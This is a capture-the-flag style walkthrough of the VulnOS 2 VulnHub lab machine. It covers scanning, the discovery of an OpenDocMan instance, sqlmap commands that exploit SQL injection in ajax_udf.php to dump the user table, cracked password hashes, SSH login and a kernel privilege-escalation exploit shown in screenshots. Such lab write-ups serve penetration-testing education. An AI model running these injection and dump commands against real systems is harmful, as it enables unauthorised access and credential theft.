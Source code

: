 ```yaml
---
title: Vuln OS
categories: [VulnHub]
tags: [opendocman, Sqlmap, Kernel Exploit, Public Exploit, PrivEsc]
image:
  path: https://www.google.com/url?sa=i&url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3Di-dQwejj518&psig=AOvVaw3W4Z9o-asudUU98USrGnlY&ust=1699512589202000&source=images&cd=vfe&opi=89978449&ved=0CBIQjRxqFwoTCJDc_fLns4IDFQAAAAAdAAAAABAJ
  alt: VulnOS Machine 💻
---
```


## **Description ⤵️**

>💡 [VulnOS](https://www.vulnhub.com/entry/vulnos-2,147/) are a series of vulnerable operating systems packed as virtual images to enhance penetration testing skills
<br><br>
- This is version 2 -
<br><br>
- Smaller, less chaotic !
<br><br>
As time is not always on my side, It took a long time to create another VulnOS. But I like creating them. The image is build with VBOX. Unpack the file and add it to your virtualisation software.
<br><br>
**Your assignment is to pentest a company website, get root of the system and read the final flag**
<br><br>
NOTE : current keyboard preferences is BE "pentesting is a wide concept"
<br><br>
If you have questions, feel free to contact me on m4db33f@gmail dot com Shout out to the Vulnhub Testing team!
<br><br>
Hope you enjoy.
{: .prompt-info }

Let’s find the IP Address first >>

```
IP : 192.168.56.104
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled.png)

```bash
Open Ports >
22			SSH
80			HTTP
6667		irc
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%201.png)

**After roming around I found Documentation page blank so I seen the source code and found this :**

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%202.png)

Lets check the source code of this page →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%203.png)

I got a directory named as `/jabcd0cs/` →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%205.png)

After trying to upload the shell I can not able to bypass mime-type and If I have then also I can not able to launch me shell .

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%206.png)

Now After seeing this exploit of opendocman I got some inside about SQLi and lets try it out now :

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%207.png)

Lets take the help of sqlmap on it →

```bash
command : 
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --dump
```

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%208.png)

```bash
command : 
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs -T odm_user --dump
```

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2010.png)

Lets crack these hashes →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2011.png)

```bash
Now I have credentials :

webmin:b78aae356709f8c31118ea613980954b : webmin1980

guest:084e0343a0486ff05530df6c705c8bb4 : guest

admin:d5c6a61719d7da181397b6db2376c2e7
```

Now lets try SSH login through webmin →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2012.png)

Now lets check for configuration files `/var/www/html/jabcd0cs/config.php` →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2013.png)

Its time to use linpeas so :

I Found this vulnerability :

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2014.png)

Now I searched the weak link and I found that This OS is outdated so I found this :>

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2015.png)

Now lets use this exploit and try it out →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2017.png)
<br><br>

---